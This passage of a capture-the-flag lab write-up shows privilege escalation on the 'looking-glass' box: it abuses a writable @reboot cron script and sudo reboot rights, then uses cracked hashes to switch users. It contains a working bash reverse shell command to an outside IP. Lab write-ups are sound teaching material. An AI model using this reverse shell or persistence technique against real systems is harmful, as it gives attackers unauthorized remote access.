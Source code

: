 ### escalating to tweedledum

I after getting in, I found that the said user executes a script apon maching start up, I had write permissions to that script, I also I had priveleges to reboot the machine 

```bash
jabberwock@looking-glass:~$ cat /etc/crontab
...
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
jabberwock@looking-glass:~$ ls -lh /home/jabberwock/twasBrillig.sh
-rwxrwxr-x 1 jabberwock jabberwock 38 Jul  3  2020 /home/jabberwock/twasBrillig.sh

jabberwock@looking-glass:~$ sudo -l
...
User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

so I replaced the content of that script with a `bash` reverse shell, rebooted the machine and waited it booted again and I got a reverse connection as the user `tweedledum`

```bash
jabberwock@looking-glass:~$ echo 'bash -i >& /dev/tcp/10.2.56.31/10000 0>&1' > twasBrillig.sh
jabberwock@looking-glass:~$ sudo reboot
Connection to ctf.thm closed by remote host.
Connection to ctf.thm closed.
```

### escalating to humptydumpty

`tweedledum`'s home directory had 2 files, one had a poem, and the other had a bunch of hashes
```bash
tweedledum@looking-glass:~$ ls
humptydumpty.txt  poem.txt
tweedledum@looking-glass:~$ cat humptydumpty.txt 
dcfff5eb40423f055a4cd0********************f5766b4088b9e9906961b9
7692c3ad3540bb803c020b********************0c6e7143c0add73ff431ed
28391d3bc64ec15cbb0904********************11230bb0105e02d15e3624
b808e156d18d1cecdcc145********************7c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d********************9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1********************2446677600d7cacef544d0
5e884898da28047151d0e5********************abbdd62a11ef721d1542d8
7468652070617373776f72********************7574737271706f6e6d6c6b
```

I used this [website](https://hashes.com/en/decrypt/hash) to crack them, the first 7 lines, was sha256 hashes hinting that the password might be one of them, the last line was just hex and it translated to the follwing text `the password is REDACTED`

atfer trying if I can log to another used using that password, it worked on the user `humptydumpty` (duh!)
```bash
tweedledum@looking-glass:~$ su humptydumpty 
Password: 
humptydumpty@looking-glass:/home/tweedledum$
```
